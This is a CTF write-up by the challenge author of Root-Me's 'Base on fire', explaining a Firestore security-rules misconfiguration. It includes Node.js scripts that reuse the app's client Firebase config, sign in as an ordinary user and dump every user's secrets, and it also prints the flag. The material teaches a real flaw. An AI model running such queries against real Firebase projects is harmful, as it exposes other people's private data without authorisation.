 ```yaml
---
title: Base on fire
description: Firestore security rules misconfiguration
summary: Firestore security rules misconfiguration
date: 2022-10-24
tags:
- Web
ctf:
- Root-Me CTF
draft: false
---
```


## Context

This is a write up for a challenge I created for the Root-Me CTF we organized to celebrate the 10k members on the Discord server. \
Please keep in mind I wasn't a participant but the creator of the challenge, hence the level of details and explainations I am able to provide. \
That was an amazing experience to help organizing this CTF, and I hope people learned a few things and enjoyed my challenges!

## Description

> The secret of my admin's account on my website has leaked, but I have no idea how! Please help me!

## Resolution

Let's go to the website and see what we can do from here.

![](not_logged.png)

To access this home page, we have to be logged in. Let's go ahead and create an account.

![](sign_up.png)

We can now access the home page where there's a feature to store a custom note for our user.

![](note.png)

If we believe the description of the challenge, there must be a way somewhere to access the notes for the other users.

Also, because the page doesn't refresh when we change our note but it's reflected against the DOM, the logic to change the note must be done from client side with an asynchronous request from JavaScript. \
Let's examine what is going on in the client side code handling this.

![](js.png)

It seems there's a lot going on here. By looking at it, we learn two things here:

- the JavaScript code has been bundled by [webpack](https://webpack.js.org/)
- the website is using [Firebase](https://firebase.google.com/)

The challenge name makes sense now: we're facing a Firebase application. Firebase is a BaaS (backend as a service), meaning it provides a full backend and a SDK to connect to it from any front end. It's a very popular choice for making web applications nowadays.

If we search for `apikey` inside this JavaScript file (or if we scroll down for a moment), we can see this piece of code:

![](config.png)

This is where the Firebase configuration is put, it contains everything that is needed to connect to the Firebase backend associated to this application. \
In addition to that, we can see it using Firebase authentication and Firestore. The authentication part is probably responsible for the sign up and login logic we've used before, while Firestore is probably the database used to store the users secrets here. \
If we continue to search for interesting things in this source code, we can find this piece of code that describes the logic of the front end. The collection used to store the secrets is therefore called... `secrets`.

![](db.png)

Now, how is handled access control to limit what can users see inside of the Firestore database? Well, for this purpose, Firebase created the [Firestore Security Rules](https://firebase.google.com/docs/firestore/security/get-started). It's a kind of very simple language that allows you to define who can access what data in what case. \
This is a very critical feature, because if these rules are misconfigured, users could access data that are not for them. \
In our case, given the description hinting that we can access the other users' secrets, we can reuse the Firebase configuration and try to connect to the project's Firestore database to see if we can access the data we want.

Let's try that!

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    const snapshot = await getDocs(collection(db, "secrets"))

    snapshot.forEach(doc => {
        console.log(doc.id, ":", doc.data())
    })
}

solve()
```

Unfortunately, we're rejected because we don't have the permission.

![](insufficient_perms.png)

It means the security rules prevent a non logged in user from accessing the `secrets` collection. But as we can obviously at least access our own secret when logged in, maybe we can in this case not only access it but also all the other secrets. Let's try it by signing in first and only then fetching the secrets.

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

const email = "osef@osef.fr"
const password = "aaaaaa"

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    auth.onAuthStateChanged(async user => {    
        if (user) {
            // logged in
            const snapshot = await getDocs(collection(db, "secrets"))
    
            snapshot.forEach(doc => {
                console.log(doc.id, ":", doc.data())
            })

            process.exit(0)
        }
    })

    await signInWithEmailAndPassword(auth, email, password)
}

solve()
```

And that's it! The security rules didn't prevent us from accessing all the secrets in the collection!

![](secrets.png)

You can see the flag being stored as the secret of a user named `admin` whose UID is `1_4m_th3_4dm1n_u1d`, and you also won the right to read all the notes of the participants as a bonus, there are a few funny ones in it. 8)

Flag: `RM{s3cur1ty_rul3s_m1sc0nf1gur4t10n}`